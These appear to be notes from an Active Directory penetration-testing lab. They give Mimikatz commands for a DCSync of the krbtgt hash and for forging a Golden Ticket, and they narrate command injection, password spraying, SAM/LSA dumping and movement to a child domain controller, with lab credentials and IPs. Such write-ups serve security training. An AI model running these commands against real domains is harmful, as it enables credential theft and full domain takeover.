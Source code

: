 ### Persistence

```powershell
Extract krbtgt account hash :
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberwarfare\krbtgt"' 

Domain SID :
whoami/all (of a domain user

Adversary Forge Golden ticket in a Domain as follows :
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:cyberwarfare.corp
/sid:S-1-5-21-xxxxx-yyyyy-xxxxx /krbtgt:xxxxxxxxxxxxxxxxxx /startoffset:0 /endin:600
/renewmax:10080 /ptt"' 
```
LAB ACCESS

```bash
Privilege = Admin@962 - First credentials harvested through command injection
John = User1@#$%6 & IP address = 192.168.98.30 - Used sqlite3 to dump the password for 
john user and the IP address is 192.168.98.30.

We performed password spraying on the reachable IPs in 192.168.98.0/24 subnet to see
if can login to any of the systems.

We realized john is a local admin in 192.168.98.30 because we were able to dump SAM 
and LSA hashes
```

![Screenshot (635).png](attachment:09a21dd4-9459-4004-9a14-3c8cf8d2cf20:Screenshot_(635).png)

![Screenshot (248).png](attachment:ae29f397-6dba-4566-9170-765d25f7ccc8:Screenshot_(248).png)

```bash
When we dumped the LSA from 192.168.98.30, we found another domain credentials.

We sprayed the credentials again and realized that corpmngr is a local admin on 
192.168.98.120 and we are in the child domain controller
```

Golden Ticket Vs Silver Ticket

```bash
A forged Ticket Granting Ticket (TGT)/Golden ticket — this is the master key to the 
Kerberos kingdom.

A forged Service Ticket (TGS)/Silver Ticket— targets a specific service on a specific
host.
```

PWNED

```bash
corpmngr = User4&*&* - 192.168.98.120 (LSA  Dump)
```

![Screenshot (249).png](attachment:93fed90e-ba1e-4008-b7dd-ac39f15b9a28:Screenshot_(249).png)

